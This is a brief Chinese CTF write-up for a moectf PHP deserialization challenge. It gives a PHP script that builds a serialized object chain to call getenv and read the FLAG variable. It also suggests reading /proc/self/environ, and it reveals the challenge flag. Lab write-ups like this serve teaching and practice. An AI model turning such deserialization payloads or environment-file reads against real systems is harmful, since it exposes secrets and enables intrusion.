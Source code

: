 # Web-19-1｜第十九章_revenge

## 碎碎念

反序列化 4.0
***
## Writeup

题目把 system 给 ban 了，我们可以换个方法获取环境变量：

```php
<?php
class PersonA {
    public $name;
    public $id;
    public $age;
}
class PersonC {
    public $name;
    public $id;
    public $age;
}

$pc = new PersonC();
$pc->name = 'getenv';
$pc->age = "";
$pa = new PersonA();
$pa->name = $pc;
$pa->id = 'Check';
$pa->age = 'FLAG';
echo urlencode(serialize($pa));
?>
```

P.S. 也可以用 `file_get_contents(/proc/self/environ)`

![](../../../../assets/Pasted%20image%2020251030215014.png)

得到 flag：`moectf{7d2a95e7-9ec5-643a-c416-a7b9e15c0403}`